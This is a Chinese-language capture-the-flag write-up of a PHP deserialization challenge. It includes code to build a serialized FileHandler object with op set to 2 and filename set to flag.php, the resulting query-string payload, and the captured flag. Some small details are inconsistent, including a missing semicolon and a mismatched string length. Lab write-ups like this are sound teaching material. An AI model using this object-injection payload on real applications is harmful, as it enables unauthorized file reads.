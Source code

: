 对于**反序列化**的题一定要有源码

## 读题干，读源码

通过分析得知，

如果 op=1调用write() 

如果 op=2调用read()

## 思路:

1。通过代码审计得知，unserialize (str) 这个变量，当我们构建序列化赋值给str时候，会自动触发__destruct这个方法

2.会调用process 这个方法，然后process 如只有op = 2的时候才满足我们的需求

3.我们要调用读取方法，读的是filename，所以filenam的值应该是flag.php，我们要把这个filename覆盖掉

## 编写php代码

http://dooccn.com/php

```
<?php
class FileHandler {
	public $op ='2';
	public $filename ='flag.php'
	public $content ='';
}
$a = new FileHandler();
echo serialize($a);
?>
```

## php序列化

```
O:11:"FileHandler":3:{s:2:"op";s:2:"2";s:8:"filename";s:8:"flag.php";s:7:"content";s:0:"";}
```

传入参数str

```
?str=O:11:"FileHandler":3:{s:2:"op";s:2:" 2";s:8:"filename";s:8:"flag.php";s:7:"content";s:0:"";}
```

页面出现`[Result]:`,右键查看源代码得到flag.txt

```
<?php $flag='flag{07badb8b-e8f3-4b4e-b5fa-ba082d9f48b1}';
```

## flag

```
flag{07badb8b-e8f3-4b4e-b5fa-ba082d9f48b1}
```
